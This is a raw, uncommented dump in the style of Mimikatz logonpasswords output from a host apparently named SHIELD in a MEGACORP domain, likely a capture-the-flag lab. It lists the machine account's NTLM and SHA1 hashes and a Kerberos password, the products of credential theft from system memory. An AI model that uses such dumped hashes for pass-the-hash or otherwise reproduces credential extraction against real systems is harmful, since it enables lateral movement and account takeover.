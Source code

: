 ```
Logon Server      : (null)
Logon Time        : 9/7/2021 5:14:32 PM
SID               : S-1-5-82-698136220-2753279940-1413493927-70316276-1736946139
        msv :
         [00000003] Primary
         * Username : SHIELD$
         * Domain   : MEGACORP
         * NTLM     : 9d4feee71a4f411bf92a86b523d64437
         * SHA1     : 0ee4dc73f1c40da71a60894eff504cc732de82da
        tspkg :
        wdigest :
         * Username : SHIELD$
         * Domain   : MEGACORP
         * Password : (null)
        kerberos :
         * Username : SHIELD$
         * Domain   : MEGACORP.LOCAL
         * Password : cw)_#JH _gA:]UqNu4XiN`yA'9Z'OuYCxXl]30fY1PaK,AL#ndtjq?]h_8<Kx'\*9e<s`ZV uNjoe Q%\_mX<Eo%lB:NM6@-a+qJt_l887Ew&m_ewr??#VE&
        ssp :
        credman :

Authentication Id : 0 ; 995 (00000000:000003e3)
Session           : Service from 0
User Name         : IUSR
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 9/7/2021 5:14:11 PM
SID               : S-1-5-17
        msv :
        tspkg :
        wdigest :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        kerberos :
        ssp :
        credman :

Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : LOCAL SERVICE
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 9/7/2021 5:14:08 PM
SID               : S-1-5-19
        msv :
        tspkg :
        wdigest :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        kerberos :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 66277 (00000000:000102e5)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
```